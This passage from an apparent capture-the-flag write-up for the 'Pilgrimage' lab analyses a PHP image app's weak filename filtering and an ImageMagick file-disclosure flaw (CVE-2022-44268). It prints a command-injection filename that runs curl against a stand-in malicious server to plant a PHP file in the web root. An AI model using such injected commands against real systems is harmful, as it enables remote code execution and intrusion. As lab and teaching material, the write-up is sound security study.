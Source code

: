 Could not be that good: if the app doesn't define a name for the image through `setName()` (which is the case), Bulletproof generates a random one. 

Worth mention that the app would be vulnerable to RCE if it used the `setName()` function. This happens because the name is not properly sanitized:

```php
public function setName($isNameProvided = null) {
  if ($isNameProvided) {
	$this->name = filter_var($isNameProvided, FILTER_SANITIZE_STRING);
  }

  return $this;
}
```

The [filter_var](https://www.php.net/manual/en/function.filter-var.php) only cleans the quotes and html tags[^2] . Other characters like `;`, `&` and `#` aren't sanitized at all, allowing us to manipulate the exec expression. For example, if we set the name of the image with:

```shell
 && curl http://malicious-server.com/file.php -o /var/www/pilgrimage.htb/secret.php #
```

The exec expression would be:

```shell
/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/ && curl http://malicious-server.com/file.php -o /var/www/pilgrimage.htb/secret.php # ...
```

This would be interesting, but the app doesn't use the `setName` and, therefore, the file name **does not have any influence** on the command executed.

##### A Unexpected Exit

And now? How can we manage to exploit this code?

This went unnoticed at first glance, but take a new look on the `exec`: 

```php
exec("/var/www/pilgrimage.htb/magick convert ... ");
```

From where it's called, for God's sake? Our directory! This binary is on the same folder as the web app and, therefore, accessible to us. 

Let's take a look at it:

```shell
$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
```

Searching up for this version, we've find about a File Disclosure vulnerability (CVE-2022-44268) when parsing `.png` files:

> "[...] ImageMagick will interpret the text string as a filename and will load the content as a raw profile, then the attacker can download the resized image which will come with the content of a remote file."[^3]


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/